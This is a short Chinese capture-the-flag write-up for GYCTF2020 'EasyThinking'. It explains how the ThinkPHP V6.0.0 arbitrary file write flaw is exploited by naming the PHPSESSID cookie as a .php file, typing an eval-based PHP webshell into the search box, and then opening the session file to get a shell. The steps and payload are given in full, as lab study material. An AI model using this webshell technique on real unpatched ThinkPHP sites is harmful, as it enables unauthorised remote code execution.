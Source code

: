 # \[GYCTF2020]EasyThinking

## \[GYCTF2020]EasyThinking

## 考点

* ThinkPHP V6.0.0 任意文件写的漏洞

## wp

打开靶机后有很多功能，登录、注册、搜索、登出等等。随便注册账号测试测试功能，都是可以使用的。

目录扫描可以扫到www.zip

尝试访问`robots.txt`提示系统错误，并且是ThinkPHP V6.0.0

```
控制器不存在:app\home\controller\robots\Txt
ThinkPHP V6.0.0 { 十年磨一剑-为API开发设计的高性能框架 } - 官方手册 
```

ThinkPHP V6.0.0有个任意文件写的漏洞，可以直接写shell。

这个漏洞的利用条件是

1、session开启

2、要能写入session

回归到这一题，用了注册登录肯定开了session，而搜索那里在登出后就清空了，也就是说可能是搜索内容是写入session的。

接着拿到了源码，发现session位置是`/runtime/session/`，搜索内容也确实会写入session

那就修改PHPSESSID为`aaaaaaaaaaaaaaaaaaaaaaaaaaaa.php`，然后在搜索框写shell`<?php @eval($_POST['a']);?>`，最后访问`runtime/session/sess_aaaaaaaaaaaaaaaaaaaaaaaaaaaa.php`进行getshell

![](<../../.gitbook/assets/image (4) (1) (1) (1) (1).png>)
